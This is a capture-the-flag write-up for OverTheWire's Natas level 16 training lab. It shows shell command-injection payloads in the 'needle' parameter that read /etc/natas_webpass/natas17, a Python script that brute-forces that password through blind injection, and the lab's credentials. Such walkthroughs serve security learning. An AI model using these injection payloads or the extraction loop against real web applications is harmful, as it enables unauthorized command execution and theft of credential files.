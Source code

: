 # Natas Level 16
The ***URL*** to which you need to connect is *http://natas16.natas.labs.overthewire.org*. The ***username*** is *natas16* and the ***password*** is *WaIHEacj63wnNIBROHeqi3p9t0m5nhmh*. 

Lets check the [viewsource](http://natas16.natas.labs.overthewire.org/index-source.html) link.
Lets try to inject "$(cat /etc/natas_webpass/natas17)" nothing showed up.

And when we try:
```
animals$(grep a /etc/natas_webpass/natas17)
```
Seems like when we grep a character in the natas17 file we see that if the character is in the file or not by the output of the website.
```Python
import requests, string

URL         = "http://natas16.natas.labs.overthewire.org/"
username    = "natas16"
password    = "WaIHEacj63wnNIBROHeqi3p9t0m5nhmh"

result      = ""
characters   = string.ascii_lowercase + string.ascii_uppercase +  "0123456789"

for i in range(32):
    # Assuming that the password is a 32 lenght string just like in the previous levels.
    for c in characters:
        response = requests.get(URL + '?needle=animals$(grep ^' + result + c + ' /etc/natas_webpass/natas17)' , auth=(username, password))
        if "animals" not in response.text:
            result += c

print(result)
```

```
The Password is : 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
```


